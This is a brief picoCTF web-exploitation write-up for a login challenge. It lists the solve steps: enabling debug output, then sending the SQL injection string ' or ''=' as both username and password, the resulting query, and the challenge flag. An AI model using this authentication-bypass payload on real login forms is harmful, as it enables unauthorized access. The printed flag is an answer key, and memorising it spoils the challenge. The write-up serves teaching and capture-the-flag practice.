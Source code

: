 #web-exploitation
<hr>
#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/50009/login.php with form key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' '
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`
4. Result of SQL query: `SQL query: SELECT * FROM users WHERE name='' or ''='' AND password='' or ''=''`
5. picoCTF{s0m3_SQL_fb3fe2ad}